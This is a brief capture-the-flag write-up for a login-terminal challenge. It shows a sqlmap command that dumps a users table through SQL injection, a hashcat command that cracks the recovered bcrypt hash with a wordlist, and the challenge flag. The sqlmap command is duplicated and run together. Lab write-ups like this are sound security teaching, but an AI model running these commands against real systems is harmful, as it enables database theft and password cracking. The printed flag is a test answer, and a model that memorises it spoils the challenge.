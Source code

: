 # Description

Your faction must infiltrate the KORP™ terminal and gain access to the Legionaries' privileged information and find out more about the organizers of the Fray. The terminal login screen is protected by state-of-the-art encryption and security protocols.

# Solution

Typing in something like "admin'" for the username shows us that there's a SQL injection vulnerability. Running SQL map against it `sqlmap --url http://94.237.55.246:47667/ --data 'username=admin&password=admin' --ignore-code 401 -v 6 --dump -T usersqlmap --url http://94.237.55.246:47667/ --data 'username=admin&password=admin' --ignore-code 401 -v 6 --dump -T users` 

Gives us a username and hashed password `admin:$2b$12$OF1QqLVkMFUwJrl1J1YG9u6FdAQZa6ByxFt/CkS/2HW8GA563yiv.`. 

We can crack the hash easily giving us a password of Password123 `hashcat hash.txt --wordlist /usr/share/wordlists/rockyou.txt -m 3200` 

Entering the password into the site gives the flag HTB{t3rm1n4l_cr4ck1ng_sh3n4nig4n5}